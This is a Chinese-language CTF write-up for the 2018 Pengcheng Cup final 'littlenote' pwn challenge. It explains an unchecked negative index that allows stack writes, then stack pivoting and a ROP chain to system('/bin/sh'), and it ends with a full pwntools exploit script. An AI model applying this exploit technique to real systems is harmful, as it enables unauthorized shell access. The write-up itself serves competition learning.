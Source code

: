 ```yaml
---
title: 鹏城杯 2018 决赛 day2 littlenote writeup
date: 2018-12-10 21:31:44
tags: [pwn, ctf, "鹏城杯", writeup]
---
```

在经历了第一天宕机5小时后，第二天出现了patch交不上去的状况。导致莫名其妙丢了一千多分，不然前二十还是有的。下面是第二天littlenote题目的writeup
<!--- more --->
## 题目分析
主要漏洞在触发`hacksys`函数，进入`hacker`函数，逻辑出现bug
```
.text:00000000004009A1                 mov     rax, qword ptr [rbp+var_74+4]
.text:00000000004009A5                 cmp     rax, 9
.text:00000000004009A9                 jle     short loc_4009B5
.text:00000000004009AB                 mov     edi, 0
.text:00000000004009B0                 call    _exit
```
这里只验证了输入不能超过9，但是负数没有进行验证，所以可以用复数来对栈进行任意地址写。

根据逻辑
```
mov     [rbp+rax*8-0x60], rdx
```
让rax（第一次读入的id）= -0x8000000000000000 + (0x60 / 8) 即可写到rbp
然后利用
```
leave
retn
```
指令进行栈迁移和rop。
## Solution
这题的难点在于没有leak点（我没找到）。所以只能利用没开PIE的特点，把`/bin/sh`写到bss段上。这里我们利用这样的片段来实现我们的目的
```
.text:0000000000400CFC                 lea     rax, [rbp-0x20]
.text:0000000000400D00                 mov     rsi, rax
.text:0000000000400D03                 mov     edi, offset a9s ; "%9s"
.text:0000000000400D08                 mov     eax, 0
.text:0000000000400D0D                 call    ___isoc99_scanf
```
这里就要提到神奇的`lea`指令了，有兴趣的同学可以自己去试试，通过这一条指令我们就能把`/bin/sh`写到bss段的开头。
接下来就简单了，由于这个片段的下面又是hacker函数，所以可以进行第二段rop。栈的布局如下

第一阶段：
1. `0x602110` 0x6020e0 + 0x20
2. `0x400cfc` 返回地址
3. `0x400fcf` 凑数的
4. `0x0000000900000000` 终止这次读入，强迫症

第二阶段：
1. `0x400e93` pop rdi gedget
2. `0x6020e0` 上面写入的`/bin/sh`的地址
3. `0x40090f` 程序自带了system，跳转到即可
4. `0x0000000900000000`终止这次读入，强迫症

然后就能get shell了

## 感想
这题难点在我傻逼，想得蛮好的，调的时候忘了`send("/bin/sh")`然后卡了一小时，真是蠢爆了。
ps：这题patch交不上去，白丢了800+分

## 脚本
```python
#! /usr/bin/env python2
# Author: 850
from pwn import *
import os


class BASE(object):
    def __init__(self, remote_host, remote_port, local_elf, gdb_script, _remote_libc, _local_libc):
        """
        initial basic paramaters
        """
        self.rhost = remote_host
        self.rport = remote_port
        self.elf_name = local_elf
        self.gdb_scripts = gdb_script
        self.local_libc = _local_libc
        self.remote_libc = _remote_libc
        self.elf = ELF(self.elf_name)
        context(os='linux', log_level='info')
        context(terminal=["xfce4-terminal", "-e"])

    def local_debug(self, gdb_attach):
        """
        debug with GDB
        """
        self.target = process(self.elf_name)
        if gdb_attach:
            gdb.attach(self.target, gdbscript=self.gdb_scripts)

    def remote_attack(self,):
        """
        try remote exploit
        """
        self.target = remote(self.rhost, self.rport)


    def add(self, note, keep):
        """
        not used
        """
        self.target.sendlineafter("Your choice:", "1")
        self.target.sendlineafter("Enter your note", note)
        self.target.sendlineafter("Want to keep your note?", keep)
        self.target.recvuntil("Done")

    def hacker(self, admin_name, index, age):
        self.target.sendlineafter("Your choice:", "5")
        self.target.sendlineafter("Enter administrator's name:", admin_name)
        for i in xrange(len(index)):
            self.target.sendlineafter("Enter hacker index:", str(index[i]))
            self.target.sendlineafter("Enter hacker age:", str(age[i]))

    def run(self,):
        rbp_addr = -0x8000000000000000 + 12
        self.hacker("A"*8, [rbp_addr, rbp_addr + 1, rbp_addr + 2, -3], [0x6020e0 + 0x20, 0x400cfc, 0x400cfc, 0x0000000900000000])

        pop_rdi = 0x400e93
        self.target.sendline("/bin/sh")
        self.target.sendlineafter("Enter hacker index:", str(rbp_addr + 1))
        self.target.sendlineafter("Enter hacker age:", str(pop_rdi))
        self.target.sendlineafter("Enter hacker index:", str(rbp_addr + 2))
        self.target.sendlineafter("Enter hacker age:", str(0x6020e0))
        self.target.sendlineafter("Enter hacker index:", str(rbp_addr + 3))
        self.target.sendlineafter("Enter hacker age:", str(0x40090f))
        self.target.sendlineafter("Enter hacker index:", str(-3))
        self.target.sendlineafter("Enter hacker age:", str(0x0000000900000000))

        self.target.interactive()

solve = BASE(
    remote_host="172.91.0.101",
    remote_port=8088,
    local_elf="./littlenote",
    _remote_libc="./libc.so.6",
    _local_libc="/lib64/libc.so.6",
    gdb_script="b *0x400a1a\nb *0x4009bd"
)

solve.local_debug(gdb_attach = False)
# solve.remote_attack()
solve.run()
```